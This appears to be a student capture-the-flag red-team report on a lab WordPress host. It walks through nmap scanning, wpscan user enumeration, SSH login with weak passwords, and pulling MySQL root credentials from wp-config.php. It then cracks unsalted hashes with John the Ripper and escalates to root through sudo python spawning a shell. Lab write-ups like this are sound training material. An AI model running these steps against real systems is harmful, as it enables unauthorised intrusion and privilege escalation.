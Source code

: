 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS -sV -O 192.168.1.110
```

![](FinalProjectImages/nmapsSsVO.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 open ssh
  - Port 80 open http
  - Port 111 open rpcbind
  - Port 139 open netbios-ssn
  - Port 445 open netbios-ssn


The following vulnerabilities were identified on each target:
- Target 1
  - Enumeration
  - Weak Passwords
  - Unsalted Password Hashes
  - Escalation Privilege/ Python Sudo Access


### Exploitation

 The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
 - Enumerate the WordPress site using WPSCAN
```
$ wpscan --url http://192.168.1.110/wordpress -eu 
``` 
![](FinalProjectImages/wpscan.png) 

- There are two users. Michael and Steven

![](FinalProjectImages/enumerateusers.png)

 - Use the command ```ssh michael@192.168.1.110``` and the password 'michael' to gain access
 
 ![](FinalProjectImages/sshmichael.png)
 
 
 - By traversing the directories two flags are exposed:
   - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}
     - **Exploit Used**
       - This flag was found in /var/www/html
       - `cat service.html`
       - ![](FinalProjectImages/htmldirectory.png)
       - ![](FinalProjectImages/flag1.png)
       
   - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
     - **Exploit Used**
       - This flag was found in /var/www/
       - `cat flag2.txt`

![](FinalProjectImages/catflag2.png)

- From the /var/www/html/ directory `cd wordpress` to find the `wp-config.php` file
 - This is where the MySQL username and password is located. 
 - Use the found username: root and password: R@v3nSecurity
 - Inside mysql, the following commands lead to password hashes and a flag3.txt
  ``` bash
     show databases;
     use wordpress;
     show tables;
     select * from wp_users;
     #TODO: insert screenshot
  ```
   - `flag3.txt`:{afc01ab56b50591e7dccf93122770cd2}
     - **Exploit Used**
       - Used the traversal of directories in mysql to obtain flag 3
       `select * from wp_posts`
       #TODO: include screenshot
 - After obtaining unsalted password hashes from 'wp_users', create the file 'wp_hashes.txt` containing the hashes to crack using john the ripper. 
 - john the ripper cracked the password for the user steven. The password is 'pink84'
 - Then, use the command `ssh steven@192.168.1.110' and the password 'pink84' to gain access to steven's user.
 - Check for permissions using `sudo -l`
 - steven can use sudo using python
 - Escalate privileges to gain root access and find flag 4
   - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
     - **Exploit Used**
       - Unsalted User Password Hash and Privilege Escalation
       - `sudo python -c 'import pty;pty.spawn("/bin/sh")`
